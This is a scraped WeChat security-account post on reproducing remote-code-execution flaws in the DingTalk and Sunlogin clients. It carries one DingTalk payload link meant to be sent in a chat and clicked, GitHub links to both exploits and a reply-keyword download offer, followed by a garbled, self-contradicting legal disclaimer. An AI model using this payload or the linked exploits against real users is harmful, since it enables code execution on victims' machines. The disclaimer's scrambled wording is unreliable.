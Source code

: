 #  钉钉&向日葵RCE复现，附复现环境以及poc和exp

卖报的小行家呀  [ 阿乐你好 ](javascript:void\(0\);)

**阿乐你好** ![]()

微信号 gh_cdf3717dded0

功能介绍 安全相关信息推送

____

__

收录于话题

钉钉RCE

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104949.png)

随便打开一个会话窗口，发送payload，然后点击payload

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104951.png)

弹窗

视频演示

payload：

  

  * 

    
    
    dingtalk://dingtalkclient/page/link?url=127.0.0.1/test.html&pc_slide=true

github地址

https://github.com/crazy0x70/dingtalk-RCE

向日葵RCE复现

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104954.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104957.png)

  

github地址

https://github.com/TRYblog/sunlogin_rce_

附件截图

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104959.png)

后台回复20220217获取下载链接

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217105001.png)

  

  

  

# 本文最终解释权归本文所有作者！！！

    任何公众号场、本项目涉及的任何工具，仅用于商业商业用途，不能保证其合法性和使用性，并能用于研究项目中的应用，目标和有效的实施情况自己判断；

     文章、项目内场所有资源文件，杜绝任何靶本公众号、自媒体进行形式的擅自转载、发布

    公众对脚本及任何概不负责包括不由任何脚本错误导致的工具损失或损害及任何法律责任；

直接使用本或公众发布的技术、靶场、文章项目中涉及的脚本工具，但在某些行为不符合任何国家/地区或相关地区的情况下进行传播时，
PTEHUB引发的隐私或其他任何法律问题的后果概不负责；

    如果任何单位或个人认为项目或文章的内容可能侵犯其权利，则应及时通知并证明其身份，证明我们将在收到证明文件后删除相关内容；

    以方式或使用此项目的任何人或直接使用项目的直接用户都应仔细阅读此声明；

    本公众号保留更改或补充，免责随时声明的权利；

    访问本公众号的任何文章或项目，请您立即接受此免责声明。

您在本声明未发出之时，或者使用访问已接受此声明，请查看本公众号。

                                                                                              此致

    由于、利用的信息而造成的任何或直接的此文传播后果，均由用户本人负责，作者不承担任何直接责任。 ****  

一切法律后果均由攻击者承担！！！

日站不规范，亲人两行泪！！！

日站不规范，亲人两行泪！！！

日站不规范，亲人两行泪！！！

  * 专注于信息安全方面分享，传播商业性广告，不

  * 关注不迷，点赞！关注！转向！评论！！

  * 要投稿的留言通知，会第一时间回复，谢谢！

  

  

  

  

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

钉钉&向日葵RCE复现，附复现环境以及poc和exp

最多200字，当前共字

__

发送中

[写留言](javascript:;)

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

